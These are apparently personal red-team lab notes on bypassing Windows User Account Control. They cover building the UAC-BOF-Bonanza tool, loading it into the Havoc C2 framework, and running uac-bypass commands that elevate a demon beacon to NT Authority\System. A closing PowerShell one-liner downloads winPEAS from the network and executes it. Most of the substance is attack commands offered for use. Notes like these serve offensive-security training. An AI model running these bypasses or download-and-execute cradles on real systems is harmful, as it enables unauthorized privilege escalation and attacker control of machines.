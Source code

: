 # UAC - User Account Control (Privilege Escalation)

MITRE Reference

![image](./images/uac_mitre.jpg)

UAC Levels

Screenshot etc...

https://www.youtube.com/watch?v=ZhaZJ4Uipqk

Fodhelper


Demo with cmd.exe -> medium level even if admin
runas 
show whoami / groups
show system informer


start beacon as unprivileged user

whoami groups

```bash
sudo apt install mingw-w64 -y

git clone https://github.com/icyguider/UAC-BOF-Bonanza.git
make
```

In Havoc -> Script Manager Load .py

Set Sleep to 10

```code
uac-bypass sspidatagram c:\windows\system32\cmd.exe
uac-bypass sspidatagram c:\temp\demon.x64.exe -> NT Authority\System
uac-bypass silentcleanup /opt/havoc/payloads/demon.x64.exe -> error
```

---
Priv Esc.

```powershell
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
```
